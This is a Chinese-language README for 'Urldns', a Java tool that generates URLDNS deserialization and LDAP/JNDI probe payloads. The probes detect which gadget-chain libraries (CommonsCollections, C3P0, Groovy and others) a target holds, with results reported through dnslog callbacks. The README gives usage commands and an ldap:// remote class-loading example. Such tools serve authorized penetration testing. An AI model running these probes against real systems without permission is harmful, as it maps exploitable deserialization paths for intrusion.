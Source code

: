 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
```
CommonsCollections13567  
CommonsCollections24  
CommonsBeanutils2  
C3P0  
AspectJWeaver  
bsh  
Groovy  
Becl  
Jdk7u21  
winlinux  
```

使用ldap模式的all将额外探测如下  
```
javax.el.ELProcessor  
org.apache.naming.factory.BeanFactory  
groovy.lang.GroovyShell  
groovy.lang.GroovyClassLoader  
org.yaml.snakeyaml.Yaml  
com.thoughtworks.xstream.XStream  
org.mvel2.sh.ShellSession  
org.apache.catalina.UserDatabase  
org.apache.catalina.users.MemoryUserDatabaseFactory  
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory  
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory  
org.apache.commons.dbcp2.BasicDataSourceFactory  
org.apache.commons.dbcp.BasicDataSourceFactory  
org.apache.tomcat.jdbc.pool.DataSourceFactory  
com.alibaba.druid.pool.DruidDataSourceFactory  
```

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
